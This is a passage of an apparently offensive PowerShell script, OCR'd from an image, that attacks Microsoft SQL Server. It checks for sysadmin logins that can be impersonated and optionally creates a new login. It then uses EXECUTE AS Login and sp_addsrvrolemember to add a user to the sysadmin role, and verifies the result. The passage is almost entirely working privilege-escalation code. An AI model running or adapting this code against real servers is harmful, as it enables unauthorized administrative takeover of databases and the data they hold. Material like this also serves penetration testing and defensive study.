                # Close db connection
               $conn.Close()
            }
        }


        # -------------------------------------------------
        # Attempt to escalate privileges
        # -------------------------------------------------

        # Verify that a sysadmin user can be impersonated
        $ImpUserSysadminsCount = $TableImpUserSysAdmins.rows.count 
        if ($ImpUserSysadminsCount -ne 0) {        

            # Open db connection
            $conn.Open()

            # Check if we are going to add a new sysadmin or elevate the current one for query
            if ($newuser -and $newPass){
                $AddUser = "CREATE LOGIN $newuser WITH PASSWORD = '$newPass'"
                $UsertoElevate = $newuser
                $Message = " create and"
            }else{
                $AddUser = ""
                $UsertoElevate = $ConnectUser
                $Message = ""
            }

            # Status user
            Write-Host "[*] Attempting to$Message add $UsertoElevate to the sysadmin role via impersonation..."

            # Get the sysadmin user that can be impersonated
            $TableImpUserSysAdmins | foreach {
                $ImpUser = $_.name
            }

            # Setup query
            $Query = "EXECUTE AS Login = '$ImpUser';
            $AddUser;
            EXEC sp_addsrvrolemember '$UsertoElevate','sysadmin';
            SELECT IS_SRVROLEMEMBER('sysadmin','$UsertoElevate') as status;"
